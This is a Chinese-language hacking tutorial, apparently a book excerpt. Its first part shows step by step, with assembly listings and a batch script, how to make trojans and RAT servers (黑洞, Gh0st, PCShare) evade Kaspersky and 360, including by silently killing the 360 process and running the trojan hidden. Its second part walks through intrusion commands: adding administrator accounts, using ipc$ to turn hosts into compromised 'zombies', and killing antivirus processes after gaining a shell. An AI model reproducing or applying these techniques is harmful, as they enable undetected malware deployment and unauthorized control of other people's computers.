DLL 与 EXE 不同，DLL 是 EXE 用来加载的。如果你给 DLL 文件加过花指令，你一定有这样的体会：多数花指令加在 DLL 上，DLL 都不能被成功加载，这就涉及了重定位的问题。重定位就是基址重定位，DLL 文件本身不能够运行，需要 EXE 加载它到内存中。基址也不是我们用 OD 载入就能看到的，所以按照 OD 中的内存地址修改往往会出错。

本文就以 XOR 加密为例子，来继续 XOR 加密之旅。这里以黑洞 1.96 配置文件中的 dll 文件为例，用 XOR 加密的方式加密“堀北压缩 0.28”的壳头来达到免杀卡巴 7.0。

首先将导出的 dll 用堀北压缩加壳，如图 92、图 93 所示。压缩后，用 OD 载入的入口处代码如下（代码 1）：

```
008EF625 B8 37F60700 mov eax, 7F637
008EF62A BA 00008700 mov edx, 00870000
008EF62F 03C2 add eax, edx
008EF631 FFE0 jmp eax
008EF633 B1 15 mov cl, 15
008EF635 0000 add byte ptr [eax], al
008EF637 60 pushad
008EF638 E8 00000000 call 008EF63D
008EF63D 5E pop esi
008EF63E 83EE 0A sub esi, 0A
008EF641 8B06 mov eax, dword ptr [esi]
008EF643 03C2 add eax, edx
008EF645 8B08 mov ecx, dword ptr [eax]
008EF647 894E F3 mov dword ptr [esi-0D], ecx
008EF64A 83EE 0F sub esi, 0F
008EF64D 56 push esi
008EF64E 52 push edx
```

之后记录下入口地址 008EF625，从 008EF63D 开始加密。为什么从这里开始加密，稍后再说明。接着用 PE Port 这个加花工具给导出的 DLL 文件加个花。其实不是加花，是借助这个加花工具加个区段，顺便把入口点也更改到这个区段。我们选择加 NSPACK 2.3 的花，然后将所有复选项前的勾去掉（最后一个是备份，可以不去掉），如图 94 所示。

加完花之后，用 OD 载入文件，删除原有的花指令，接着在这段的末尾有一块空白区域，我们写入进行 XOR 加密的代码（代码 2）：

```
0091A010 > E8 00000000 call 0091A015
0091A015 58 pop eax
0091A016 2D 15A09100 sub eax, 0091A015
0091A01B 05 25F68E00 add eax, 008EF625
0091A020 50 push eax
0091A021 83C0 18 add eax, 18
0091A024 8BD8 mov ebx, eax
0091A026 B9 04000000 mov ecx, 4
0091A02B 8B03 mov eax, dword ptr [ebx]
0091A02D 35 44332211 xor eax, 11223344
0091A032 8903 mov dword ptr [ebx], eax
0091A034 83C3 04 add ebx, 4
0091A037 E2 F2 loopd short 0091A02B
0091A039 33C0 xor eax, eax
0091A03B C3 retn
0091A03C 90 nop
```

先来解释下这段代码，这个和前面介绍过的 XOR 加密和加减法加密有一点区别，也就是前面多了一些代码，下面分别对代码后的解释标号进行说明。

- ① 这句 CALL 要用二进制编辑来写入，目的是为了获得相对地址。二进制写入 E8 00 00 00 00，同时这句操作也将 0091A015 压入堆栈，也就是 CALL 的下一句地址。
- ② 这句是取出 CALL 压入堆栈的地址 0091A015，同时保存在 eax 寄存器里。
- ③ 这里是解决重定位的经典方案，这句将 eax 减去上一句的地址 0091A015，获得一个相对的数值（在 OD 中的值为 0，但是基址经过重定位后，未必得到 0），也就是目前的基址和产生重定位后基址的差值，之后将这个值保存在 eax 里。
- ④ 这句将入口点和上句获得的目前的基址和重定位基址的差值相加，之后将值保存在 eax 中。这也就保证了 eax 中存放的入口地址是动态的，随着重定位改变而改变，但是始终是入口。
- ⑤ 这句是将 eax 里存放的入口地址压入堆栈。
- ⑥ 将 eax 加上 18，也就是入口地址下面的 008EF63D 这个地址，008EF63D-008EF625=18，仍然取的是相对地址。之后将这个地址保存在 eax 中，保证了重定位后依然指向 pop esi（参照代码 1）。
- ⑦ 这句是将 eax 中的地址传入 ebx 中，这里是我们前面介绍过的 XOR 加密代码的开始，只不过传送地址是 eax。
- ⑧ 这句将 eax 清零。
- ⑨ retn 和 ⑤ 中的 push 对应，返回到 push 压入堆栈的地址，也就是程序的入口点。

由于我们用的是工具加花，所以入口点直接定位在了 0091A010。之后用 OD 载入，把要加密的部分在 16 进制窗口里显示出来，然后按鼠标右键，选择“数据窗口中跟随”-“选择”，如图 95 所示。

之后跳到入口开始 F8 单步跟踪，直到此循环完毕。我们发现 16 进制窗口的数据在改变，变成了加密后的 16 进制数据，如图 96 所示，把数据复制出来，数据为：1A B0 CC 1B CF 35 21 D3 CF 3B AB 5F B7 B0 CC 1E 56 52 8B F0 AD。

接着重新载入文件，把这段数据用二进制编辑替换掉未加密前的数据后保存，如图 97 所示。

这样，就完成了整个加密过程。经过测试，DLL 成功免杀卡巴，这时可以用图 92 中的工具把 DLL 导回黑洞的服务端，运行即可正常上线，功能完全。

> 对于 DLL 的 XOR 加密免杀（也可以用介绍的加减法加密），其通用性不能保证百分之百，只能算是免杀的一种选择。测试过几个 DLL 文件，体积大一点的 DELPHI 写的程序比较通用；C++ 写的体积比较小的，在更改入口点后往往在 OD 中加载失败，也就无从修改了。即使用一些非常手段改掉了数据，最后服务端也不能上线。如果你给 DLL 加花指令，也是要考虑重定位的。前面我们说到为什么不从入口开始加密，而是从 008EF63D 这里开始加密，这是因为前面的一些指令后面带有地址。建议尽量避开加密带有地址的指令，也是防止重定位带来的修改后程序不能运行的问题。

### 十六、突破 360 安全卫士监控

在做免杀时，有个很棘手的问题，就是几乎所有杀软都过了，但是最后安装服务启动时被 360 拦截，结果所有的免杀遇到 360 全白费。本节介绍一种突破 360 安全卫士监控的办法，通过结束 360 进程的方式，来达到使其监控失效的目的。

网上曾有一种比较不错的方式，也就是更改注册表键值，使 360 失去防护，但是 360 针对此手段已经作出防护。还有一种方式，是通过 taskkill 来结束 360 进程，但是现在此方法也无效了。这次我们介绍通过 knlps 这个小工具无声无息结束 360 进程，以此达到启动木马的目的。

先来建立一个批处理文件，在记事本中写入如下内容：

```bat
@ECHO OFF
ping 127.0.0.1 //拖延时间，保证knlps释放完毕
knlps.exe -l >PID.txt //用knlps列所有进程PID并写入PID.txt
FINDSTR /i "360tray.exe" PID.txt >>tt.txt //获取360进程PID，一系列信息写入tt.txt
FOR /F "eol=; tokens=1 delims= " %%1 in (tt.txt) do knlps.exe -k %%1 //获取360进程PID并结束
ping 127.0.0.1 //拖延时间，保证进程已经被结束
ping 127.0.0.1
call pc.exe //pc.exe为要启动的木马
del knlps.exe //删除痕迹
del tt.txt //删除痕迹
del pid.txt //删除痕迹
del 360.exe //删除自身
```

之后保存为 xxx.bat，再把 bat 转换成 exe，用以加密批处理的内容。我使用的是 ExeScript，打开这个工具后，点击“文件”-“新建”-“批处理文件”，然后把批处理的内容复制进去，如图 98 所示。

最后，再点击“方案”-“编译”，就编译成 exe 后缀的文件了，原来批处理的样子已经再也看不到了。编译出来我们命名为 360.exe。

之后我们借助捆绑机和目标程序进行捆绑，这里使用“大水牛多功能过主动捆绑工具 2.5”，再按照如图 99 所示进行捆绑设置。

在捆绑进 knlps.exe 和 pc.exe（服务端）时，选择只释放不运行，而且三个文件必须要释放到同一个目录，我选择的是 Windows 目录。还要注意，最后一个文件是 bat 编译成的 exe 文件，运行时会弹出黑色的 CMD 窗口，我们还要处理一下。

在“其他设置”下的“运行方式”下拉菜单中选择“隐藏模式”就可以了，如图 100 所示。选择这种模式省去了加个 VBS 来隐藏运行批处理，捆绑的文件越少越好。捆绑后就生成了一个文件，其中里面捆绑的是 PCSHARE，运行时轻松结束掉了 360 安全卫士，服务端成功上线。

这种方法还是不够完美，主要是通过结束进程来达到目的，但是到目前为止，也没有发现一种比较好的方式。对于此方法需要注意：在捆绑的时候不要让服务端也执行，这样很可能在批处理没有执行到结束 360 进程的时候，服务端就运行了。另外，此种方法算是继承了用 Taskkill 结束进程的方法，只不过要高级一点点而已。

### 十七、偷梁换柱！轻轻松松过掉卡巴斯基 7.0 主动防御

现在许多木马都有了恢复 SSDT 的功能，这就可以轻松地过掉主动防御，当然也有许多自己喜爱的木马却不具备这个功能。本节就介绍一款可以让所有的可执行程序过掉卡巴的 Loader，这个 Loader 会在光盘中提供给大家，接下来看看这个 Loader 怎么使用。

需要的文件包括一个配置好的免杀卡巴的木马（目标程序）和这个 Loader，先来说说这个 Loader 过主动防御的原理：

这个 Loader 是在一个挂马的网页中捕获的，没有生成器，所以对于它的使用需要自己手工来操作。接下来我们手工 DIY 这个 Loader。

首先用 ResScope 载入这个 Loader，如图 101 所示。载入后会遇到 RINGO 这个项目中有两个资源，其中的 RINGOBIN 是驱动文件，RINGOEXE 是要导入的目标程序。

对于 RINGOBIN，可以导出为 xxx.sys，如果被杀了可以导出来做免杀之后再导回去，目前还是免杀的。对于 RINGOEXE，我们可以导入不过主动防御的目标程序到里面。

先来导出 RINGOEXE 看看，由于这个程序是在网页木马中捕获的，所以这个东西肯定是某款木马，当这个 Loader 拿到手里后，千万不要运行。

将两个资源分别导出为 11.sys 和 11.exe。发现 sys 有 700 多字节，exe 有 390 多 KB，如图 102、图 103 所示。

在测试的过程中发现，sys 文件已经不能成功恢复 SSDT，所以我们要换一个 SYS 文件进去，并且换进去一个我们的服务端，这个就是所谓的偷梁换柱。

对于导入的 sys 文件，我这里选择了 Gh0st RAT 2.5 的驱动文件，大约 3.8KB。另外，我们要导入服务端的文件大小最好不要超过原有大小，这里我导入的是一个 10 多 KB 的小文件，是 PI2.3.2 的小服务端。

但是再次导出后，发现依然是 390 多 KB，开始以为是有后门，但是用 C32ASM 打开后发现，后面的一大段都是 00 填充的区域，程序依然可以运行。一个 10 几 KB 的小文件变得体积这么大，用起来还是不方便，咱们来找找是如何增肥的吧？

我们通过图 102 中知道驱动文件的大小是 768 字节，转换成 16 进制数据为 300 字节；而图 103 中看到的导出文件大小是 403456 字节，转换成 16 进制是 62800 字节，这个可以用系统自带的计算器计算出来。

我猜想，控制这两个文件大小的数据很可能就在文件中，所以接着用 C32ASM 载入 Loader 文件。在 C32ASM 里面采取 16 进制搜索形式来搜索 002806（数据在文件里面是从低位到高位这样的形式保存的），果真找到了一处数据和这个一样的。而在搜索 000300 的时候找到两处，一个是载入文件 DOS 头部的数据，显然这个肯定不是；而第二个就是如图 104 所示的 002806 上方的 000300，很显然就是这个了。

之后我们再来查看 Gh0st RAT 2.5 的驱动文件大小，是 3328 字节，换成 16 进制为 D00 字节；而 PI2.3.2 服务端的大小是 9728 字节，转换成 16 进制是 2600 字节。

我们把 002806 替换成 002600，记得仍然是从低位到高位，修改后如图 105 所示。

接着保存文件，当我们再次导出 RINGOBIN 和 RINGOEXE 这两个资源后发现，前者没有变大，还是 768 字节，当然后者也并没有变小，依然是原来的大小。之后我们用到另一款软件 Resource Binder，它可以对保存后的文件进行重构，如图 106 所示。

重构之后我们发现，Loader 整个文件已经变小，我们再次导出里面的两个资源，发现和导入的文件一样大小了。虽然是同样的大小，但是里面的资源很可能被破坏了，所以借助 ResScope 再将两个资源重新导入一次，之后保存后测试，很惊喜的事情发生了！卡巴 7.0 主动防御全开的时候，没有任何的反应而安装服务端的主机上线了！

这样，一次完美的偷梁换柱免杀之旅就完成了，偷的是这个 Loader 的梁，换的是 Gh0st RAT 驱动的柱。

这算是对于一个 Loader 的废物利用过程，当然现在有一些捆绑机也是可以过主动防御的了，不妨用捆绑机试试。本节中提到的 Loader 中的 SYS 驱动是可以随意更换的，你也可以尝试用 PCSHARE 的驱动，或者其他恢复 SSDT 的驱动。

在 DIY 这个 Loader 的过程中，一定要保证 sys 文件是免杀的，否则不会成功。如果 sys 驱动在原来程序上也失效了，那么在这个 Loader 里也一定失效，所以一定要保证驱动是可以恢复 SSDT 的。另外，不能保证所有的恢复 SSDT 的驱动都可以移植到这个 Loader 上，测试的时候要在虚拟机中测试，以免造成蓝屏或系统崩溃。

### 十八、CALL 间花再造 MaskPE2.0 免杀神话

Mask PE 这款加密免杀工具是 06 年出来的，曾经一度火热过，可以说在当时是免杀必备！由于这样的出众，最后当然难逃杀软的追杀，它们是直接就把这款软件加密过的程序封杀，无论是不是恶意程序。我们这次就来让这款加密软件复活，继续它的免杀之旅。

Mask PE 有六种加密方式，如图 107 所示，我们只以其中一种为例来进行说明，其他五种的是一样的。

用 Mask PE 载入目标程序后，以第一种加密方式为例，点击“Make File”，就生成了一个加密的文件。之后用 OD 载入加密后的文件，来到加密后程序的入口点，会看到如下代码：

```
00408026  60 pushad
00408027  53 push ebx
00408028  51 push ecx
00408029  53 push ebx
0040802A  51 push ecx
0040802B  85D8 test eax, ebx
0040802D  53 push ebx
0040802E  53 push ebx
——中间省略若干代码——
004080DC  5A pop edx
004080DD  59 pop ecx
004080DE  5B pop ebx
004080DF  58 pop eax
004080E0  58 pop eax
004080E1  5A pop edx
004080E2  5A pop edx
004080E3  61 popad
```

中间省略了若干代码，这组反汇编代码中，是 pushad 和 popad 夹杂着一堆指令，这些指令可以用 nop 全部填充掉，只剩下开头的 pushad 和结尾的 popad。

之后在 pushad 下面的第一行采取二进制编辑写入 E8 10 00 00 00，如图 108 所示。也就是从下一句地址算起（0040802C），CALL 到向下十个地址处，那里就是 0040803C。

之后在 0040803C 继续二进制编辑，和图 108 是一样的。但是要注意，这样 CALL 下去会 CALL 出 pushad 和 popad 夹着的这个范围，所以最后一个 CALL 未必会是向下第十个地址。

最后一个 CALL 需要手工调整，CALL 到 popad 的地址，也就是 004080E3，这样就在 pushad 和 popad 之间建立了几个 CALL。其中每两个 CALL 之间全部是 nop 填充的，CALL 是连续的，每一个都 CALL 到向下的另一个。之后将每两个 CALL 之间的 nop 全部选中，进行二进制编辑，随意写入 16 进制的数据，但是不要超过原有数据的个数，如图 109 所示。

然后其他每两个 CALL 之间重复以上操作，16 进制数据是随意输入的，这种加花的方式就是 CALL 间花。最后将所有修改保存，这样免杀就做完了，程序可以正常运行。经过测试，可以过卡巴 7.0、金山、江民。

> 我们只用了 Mask PE 的第一种方式加密，对于其他的方式加密以后，在载入的入口同样会看到 pushad 和 popad 之间有许多指令。无论是什么，全部可以用 nop 填充，免杀方式也是相同的。

## 小命令，大作用——入侵渗透命令实用操作

这里给大家讲一下我们在脚本入侵以及内网渗透之中用到的一些小命令，分四个部分：第一部分是关于 Windows 下的一些常用命令；第二部分则会提到 IIS、FTP 等命令；第三部分是一些实用工具的命令介绍，比如 nc 等；第四部分则会附带地讲下在渗透过程中的其它小细节。本章的重点是第一部分和第三部分。

### 一、Windows 下的利器

#### 1. ping

Ping 是 Windows 系列自带的一个可执行命令，利用它可以检查网络是否连通，可以很好地帮助我们分析判定网络故障。该命令只有在安装了 TCP/IP 协议后才可以使用。

Ping 命令的主要作用是通过发送数据包并接收应答信息来检测两台计算机之间的网络是否连通。当网络出现故障的时候，可以用这个命令来预测故障和确定故障地点。Ping 命令成功只是说明当前主机与目的主机之间存在一条连通的路径；如果不成功，则考虑：网线是否连通、网卡设置是否正确、IP 地址是否可用等。

需要注意的是：成功与另一台主机进行一次或两次数据报交换并不表示 TCP/IP 配置就是正确的，你必须执行大量的本地主机与远程主机的数据报交换，才能确信 TCP/IP 的正确性。

另外，这个命令在黑客入侵的过程中，可以用来探测域名是否有效，并测试服务器的反应速度。我们在 cmd 下输入：ping www.baidu.com，返回的信息如图 1 所示。

```bash
>ping www.baidu.com
Pinging www.a.shifen.com [220.181.6.6] with 32 bytes of data:
Reply from 220.181.6.6: bytes=32 time=39ms TTL=54
Reply from 220.181.6.6: bytes=32 time=39ms TTL=54
Reply from 220.181.6.6: bytes=32 time=40ms TTL=54
Reply from 220.181.6.6: bytes=32 time=39ms TTL=54
Ping statistics for 220.181.6.6:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 39ms, Maximum = 40ms, Average = 39ms
图1
```

从图 1 中我们可以得知服务器的 IP 地址是 220.181.6.6，而“Minimum = 40ms, Maximum = 42ms, Average = 40ms”表示发送和接收数据包这一过程所花费的时间，时间越小就说明线路情况越好，我们访问网站的速度就越快。如果得到的这个值过大的话，我想很少有人愿意去渗透一个连打开都要花费好几分钟的网站吧？

Ping 命令还有一个作用就是粗略地判断对方主机所采用的操作系统。一般情况下，Windows 系统的 TTL 值在 100–130 之间，而 UNIX/LINUX 系统返回的 TTL 值在 240–255 之间。当然，这只是个粗略的情况判断，因为在 Windows 系统下，可以通过修改注册表的方式来修改 TTL 的值。

#### 2. ipconfig

ipconfig 命令用于显示当前 TCP/IP 配置的设置值，这些信息一般用来检验人工配置的 TCP/IP 设置是否正确。但是，如果你的计算机和所在的局域网使用了动态主机配置协议（Dynamic Host Configuration Protocol，DHCP——Windows NT 下的一种把较少的 IP 地址分配给较多主机使用的协议，类似于拨号上网的动态 IP 分配），这个程序所显示的信息也许更加实用。因为此时 ipconfig 可以让你了解你的计算机是否成功地租用到一个 IP 地址，如果租用到则可以了解它目前分配到的是什么地址。

了解计算机当前的 IP 地址、子网掩码和缺省网关，实际上是进行测试和故障分析的必要项目，这个命令在渗透时也常常用到。

当我们不用任何参数运行此命令时，显示的相关信息如图 2 所示。我们可以看到，本机上绑定了三块网卡，最后一个显示的是本地连接，我在局域网的 IP 地址是 192.168.1.106，子网掩码：255.255.255.0，网关则为：192.168.1.1。当然，如果你是外网的话，情况也是一样的。

这时我们为这个命令加一个参数 /all，输入 ipconfig /all，得到的信息会更多，如图 3 所示，又增加显示了 DNS 的 IP 及物理地址和网卡名称，而且本地的计算机名也显示出来了，如图 4 所示。这个信息很重要哦！有了对应的主机名，就可以开始内网渗透了。

#### 3. nslookup

nslookup 最简单的用法就是查询域名对应的 IP 地址，包括 A 记录和 CNAME 记录。如果查到的是 CNAME 记录，还会返回别名记录的设置情况。其用法很简单，比如输入命令 nslookup www.baidu.com，返回信息如图 5 所示。

从信息中我们可以了解到，除了可以知道服务器的多个 IP 外，还知道了该站点的另外一个域名 www.a.shifen.com，这些信息对于渗透一个大型网站来说也是有用的。

另外，nslookup 的一些高级用法值得大家注意下，比如指定查询，其命令用法为：nslookup -qt=类型 目标域名，这里你要注意 qt 必须小写。那么，其中可以查询的类型参数有哪些呢？如下所示，类型参数可以是以下字符，不区分大小写。

类型参数：

- A 地址记录（IPv4）
- AAAA 地址记录（IPv6）
- AFSDB Andrew 文件系统数据库服务器记录（不懂）
- ATMA ATM 地址记录（不是自动提款机）
- CNAME 别名记录
- HINFO 硬件配置记录，包括 CPU、操作系统信息
- ISDN 域名对应的 ISDN 号码
- MB 存放指定邮箱的服务器
- MG 邮件组记录
- MINFO 邮件组和邮箱的信息记录
- MR 改名的邮箱记录
- MX 邮件服务器记录
- NS 名字服务器记录
- PTR 反向记录（从 IP 地址解释域名）
- RP 负责人记录
- RT 路由穿透记录（不懂）
- SRV TCP 服务器信息记录（将有大用处）
- TXT 域名对应的文本信息
- X25 域名对应的 X.25 地址记录

从查阅的资料来看，这个命令的使用方式还有另外一种，而且两者之间的结果是有差异的，那么下面我们就以 MX 类型参数来进行举例说明吧！

首先我们执行前面提到过的命令格式，输入 nslookup -qt=mx www.slenk.net，返回信息如图 6 所示。接下来看看第二种执行命令的方式：首先在命令行下输入 nslookup，回车后输入 set type=mx，再回车后输入 slenk.net，返回信息如图 7 所示。

```bash
C:\nslookup -qt=mx www.slenk.net
Server: ns.group.yfc
Address: 202.103.44.150

www.slenk.net
    primary name server = ns.dnsfamily.com
    responsible mail addr = hostmaster.dnsfamily.com
    serial = 1083128252
    refresh = 900 (15 mins)
    retry = 600 (10 mins)
    expire = 86400 (1 day)
    default TTL = 3600 (1 hour)
```

```bash
C:\nslookup
Default Server: ns.group.yfc
Address: 202.103.44.150

> set type=mx
> slenk.net
Server: ns.group.yfc
Address: 202.103.44.150

Non-authoritative answer:
slenk.net       MX preference = 10, mail exchanger = mx.mail.sogou.com
slenk.net       nameserver = ns.cdnhost.cn
slenk.net       nameserver = ns.dnsfamily.com
slenk.net       nameserver = ns1.dnsfamily.com
slenk.net       nameserver = ns2.dnsfamily.com
ns.dnsfamily.com    internet address = 125.65.112.26
ns1.dnsfamily.com   internet address = 125.65.112.8
ns2.dnsfamily.com   internet address = 125.65.112.9
```

执行命令的方式不同，结果有些差异当然也不奇怪。通过这个命令我们可以得知 www.slenk.net 的 DNS 服务器名称和 IP 地址，难道这不是我们渗透之前要做的工作吗？呵呵。

#### 4. tasklist、taskkill（ntsd）

当任务管理器被病毒或恶意程序屏蔽时，我们可以使用这两个命令来操作进程。在命令行下输入 tasklist，我们就可以看到当前本机上活动的进程。

| 映像名称 | PID | 会话名 | 会话# | 内存使用 |
|---|---:|---|---:|---:|
| System Idle Process | 0 | Console | 0 | 16 K |
| System | 4 | Console | 0 | 276 K |
| smss.exe | 716 | Console | 0 | 400 K |
| csrss.exe | 768 | Console | 0 | 4,264 K |
| winlogon.exe | 796 | Console | 0 | 1,296 K |
| services.exe | 840 | Console | 0 | 5,748 K |
| lsass.exe | 852 | Console | 0 | 1,592 K |
| svchost.exe | 1016 | Console | 0 | 3,640 K |
| svchost.exe | 1076 | Console | 0 | 4,672 K |
| svchost.exe | 1500 | Console | 0 | 19,196 K |
| Igfxsrvc.exe | 1788 | Console | 0 | 4,712 K |
| CDAC11BA.EXE | 1800 | Console | 0 | 1,524 K |

如果想杀掉某个进程，我们可以用 taskkill /pid pid值 这种命令形式。比如表中的 CDAC11BA.EXE，其对应的 pid 值是 1800，我们输入：taskkill /pid 1800，提示无法终止这个过程。我们没有成功杀掉，这时候可以用到参数 /f，它是强制终止进程。执行命令 taskkill /pid 1800 /f，提示已经成功终止进程。

```bash
C:\taskkill /pid 1800
错误: 无法终止 PID 为 1800 的进程。
原因: 只能强行终止这个进程(带 /F 选项)。
```

```bash
C:\taskkill /pid 1800 /f
成功: 已终止 PID 为 1800 的进程。
```

一般在入侵中，特别是我们拿到一台主机的 shell 时，想把木马传上去，但杀毒软件却是严防死守，使得木马一上去就被查杀，这时就可以试试用这种命令来把杀毒软件的进程结束掉。

有些系统服务和杀毒软件的进程不会轻易就被结束掉，因为现在的杀毒软件都做了自我保护，不允许非法结束掉自己的相关进程，就算是加上参数 /f 也无法终止进程。

ntsd 也是属于这种命令，它的用法也很简单，格式为：ntsd -c q -p pid值。我们找瑞星的进程试一下吧？输入 ntsd -c q -p 4884，“瑞星自我保护”弹出提示，是不允许结束这个进程的。

#### 5. netstat、nbtstat

一般情况下，大家都会用 netstat 看看本机开了哪些端口，自己和外界的哪些端口相连，执行命令 netstat -an 后返回信息，不同的主机显示不同的内容。

图中的 Proto 表示协议，有 TCP 和 UDP 之分；Local Address 表示本地开了哪些端口；Foreign Address 表示外部的端口和 IP 地址；State 则表示连接状态，而连接状态中又有 Listening、Established 和 Time_WAIT 三种情况。这三种情况从字面上就可以理解出来，分别表示的是监听、建立和等待。如返回信息中的：TCP 192.168.1.106:1986 221.176.31.33:8080 ESTABLISHED，表示本地的 1986 端口和 221.176.31.33 的 8080 端口成功连接了。

通过这个命令查看本地开了哪些端口，在拿服务器系统权限以及内网渗透的时候用处很大。接下来说说 nbtstat，这个是干什么的呢？

nbtstat 可以显示基于 TCP/IP 的 NetBIOS（NetBT）协议统计资料、本地计算机和远程计算机的 NetBIOS 名称表和 NetBIOS 名称缓存；还可以刷新 NetBIOS 名称缓存和使用 Windows Internet 名称服务（WINS）注册的名称。这个命令在内网渗透的时候用处很大。使用不带参数的 nbtstat 命令是直接显示帮助。

如果我们想要查看 192.168.1.100 的 NetBIOS 名称表，输入命令：nbtstat -a 192.168.1.100，返回信息如下。从返回信息中可以得知，这个内网中还有其它机器，并且可以得知其机器名。当然，我们要清除自己的 NetBIOS 表，可以用命令 nbtstat -R 来执行。

```text
本地连接:
Node IpAddress: [192.168.1.106] Scope Id: []

NetBIOS Remote Machine Name Table

Name                    Type        Status
GHOST-675D8143C <00>    UNIQUE      Registered
WORKGROUP       <00>    GROUP       Registered
GHOST-675D8143C <20>    UNIQUE      Registered
WORKGROUP       <1E>    GROUP       Registered

MAC Address = 00-1D-7D-43-B9-B5
```

#### 6. net

这个命令的参数多，功能也多，所以说是很重要的，而且在内网渗透和提权时用得非常频繁。当我们拿到一个系统的 shell 后，如果也开了 3389，那么第一反应就是加一个有管理员权限的用户。添加一个管理员的命令为：net user test test /add & net localgroup administrators test /add，中间的 & 是把它两头的命令连接起来执行，整个命令的意思就是建一个用户名为 test、密码为 test、且具有管理员权限的用户。

如果有时候使用 net localgroup administrators test /add 这类命令将用户加为管理员时，会提示指定的本地组不存在，这是由于网络管理员把 administrators 这个组改名了。

```text
C:\>net localgroup administrators test /add
发生系统错误 1376。
指定的本地组不存在。

C:\>net user
\\TEST-91A6BX0440 的用户帐户
---------------------------------------------------------
Administrator  ASPNET  Guest
IUSR_TEST-91A6BX0440  IWAM_TEST-91A6BX0440
命令成功完成。
```

我们要如何才能得知被修改的名字呢？其实还是可以通过 net 命令来解决。先通过 net user 查看这个服务器上有哪些用户。

从返回结果中我们可以看到有个用户 Administrator，很显然这个用户应该具有管理员权限的，我们用 net user administrator 命令看下这个用户的资料，它属于 nohack 这个组，而不是我们以为的 administrators 这个组。我们只要把 test 用户加到这个 nohack 组就具有管理员权限了。为了确定 nohack 这个组的权限，还可以用 net localgroup nohack 命令来查看该组属性。

```text
C:\>net localgroup nohack test /add
命令成功完成。
```

```text
用户注释
国家(地区)代码                 000 (系统默认值)
账户启用                       Yes
账户到期                       从不
上次设置密码                   2008-7-13 21:5
密码到期                       从不
密码可更改                     2008-7-13 21:5
需要密码                       Yes
用户可以更改密码               Yes
允许的工作站                   All
登录脚本
用户配置文件
主目录
上次登录                       2008-7-14 18:3
可允许的登录小时数             All
本地组成员                     *nohack
全局组成员                     *None
命令成功完成。
```## 小命令，大作用——入侵渗透命令实用操作

现在一个开了3389的服务器就拿到手了，接下来继续扩大成果吧！那么先来看下这台服务器的内网有哪些机器？需要用到的命令就是 **net view**，它的作用是显示域列表、计算机列表或指定计算机的共享资源列表。输入这个命令后，返回信息如图19所示。

```bash
C:\>net view
服务器名称          注释
-------------------------
\\GHOST-675D3143C
\\QLQ
\\TEST-9IA6BX0440
命令成功完成。
```

接下来就来把这些机器变成我们的肉鸡吧！如何把自己机器里面的东西放到服务器上呢？呵呵，net命令照样会为我们做好！大家知道，利用ipc$入侵以前很流行，而现在却因为人们安全意识的提高而逐渐淡出视线，而现在我们已经有了一个管理员权限的用户了，使得利用ipc$传送文件是一件很容易的事。这里以我的虚拟机为例给大家做下演示，如何把我们想要的文件传到服务器上面去。

首先在本机的命令行下输入：**net use \\192.168.1.107 "test" /user:test**，如果成功的话，返回信息如图20所示。

```bash
C:\>net use \\192.168.1.107 "test" /user:test
命令成功完成。
```

接下来把服务器上面的C盘映射到本地H盘，命令格式为：**net use h: \\192.168.1.107\c$**，成功的话，当我们打开“我的电脑”时就会多出一个H盘，如图21所示。现在这个H盘就是服务器上的C盘了，想传什么东西就放进去吧。我把一个test.txt文件拖进去后，然后到服务器上的C盘下查看，如图22所示，文件已经上传上去了。

有时候对方的ipc$是开着的，我们却连不上去，这种问题很常见。比如连接上一台肉鸡，我们输入命令：**net share**，如图23所示，共享开得够多了吧！可是用ipc$连接时，却提示找不到网络名，如图24所示。

通过我的经验来看，当遇到对方有防火墙，或者其主机在中国大陆境外（如中国台湾、美国等地区），就很难用到ipc$。这时候我们怎么办呢？当然，如果服务器上开了FTP，我们可以通过FTP来执行命令，大家可以看看后面的相关章节。

这里再介绍最后一个net命令，那就是 **net start**，它可以显示已启动的Windows服务，执行后返回信息如图25所示。

那么我们知道开了这些服务有什么用呢？大家都知道，有时候碰到安全设置比较好的服务器，我们一般都只能采用服务替换的方法来种马，然后等待服务重启。当服务器重启后，其相应的服务就被替换成我们的木马了。

哦，有个部分我差点漏掉了，那就是net1.exe。有许多管理员为了防止所谓的黑客攻击，把net.exe给删除了，但却忘记了net1.exe。大家在使用net命令无法操作的时候，试试用net1.exe，命令格式都是一样的。好了，net命令就讲到这里，大家一定要多实验，如果没有自己的肉鸡，可以装一个虚拟机软件来模拟网络环境，熟悉下这些命令。

| 共享名 | 资源 | 注释 |
| --- | --- | --- |
| E$ | E:\ | 默认共享 |
| IPC$ | C:\WINDOWS | 远程管理 |
| ADMIN$ | D:\ | 默认共享 |
| D$ | C:\ | 默认共享 |
| C$ | sql2ksp4 | 默认共享 |

## 7、telnet

说起这个命令大家是不是会想到NTLM的验证问题呢？的确，这个命令在前几年的时候很流行，那时扫135、445端口，以及retcon之类的工具，现在估计都用不着了。因为安全意识的提高，现在已经很少有机会可以直接获得管理员用户名和密码，然后telnet过去，从而控制对方。

那么这里还要讲什么呢？telnet这个命令我还是经常用的，因为通过它可以粗略地判断一下对方的端口及IIS的相关信息。当我们要想从web方面下手时，就得先了解下这个网站的架构，比如它采用的是什么数据库类型。不同的数据库会有默认的端口，如果管理员疏忽的话，我们就可以得到一些基本信息。下面，我们就随便找一个站点来做做演示。

首先让我们判断一下对方的IIS，输入命令 telnet www.xx.com 80，回车后，出现如图26所示的情况，我们已经通过telnet连接上了。然后输入get后回车，返回信息如图27所示，这台服务器的IIS是5.1版本的，有点老了。

接着来判断下对方IIS的基本状态，我们再以刚才的命令telnet到目标机的80端口，然后把以下内容复制到CMD窗口中（就是那个黑糊糊的窗口），连续两次回车后，返回信息如图28所示。

```text
PUT /shell.txt HTTP/1.1
Host:www.xxx.com
Content-Length:0
```

返回的信息中，HTTP/1.1是403，如果是100的话，就是有写权限漏洞。这个站点的脚本是PHP的，如果数据库没有与web分离的话，主机应该会开3306（MySQL默认）端口。我们输入命令：telnet www.xx.com 3306，返回信息如图29所示，呵呵，没想到竟然得到数据库的版本信息（这个版本信息的返回是看情况而定的）。

这样，我们就可以通过以上类似的方法去判断服务器的主机系统和其它端口号。当然，不同的机器情况也不一样，大家应该灵活处理。

## 8、at、copy

大家还记得前面的net命令么？我们用net建立了一个ipc$共享后，直接映射对方的磁盘，然后进行复制文件的操作。这种映射的方法很容易让对方的管理员发觉到，因为很明显就可以看到连接的。那么接下来要讲的，就是利用copy命令和at命令，隐蔽地把文件复制到服务器上去并运行。

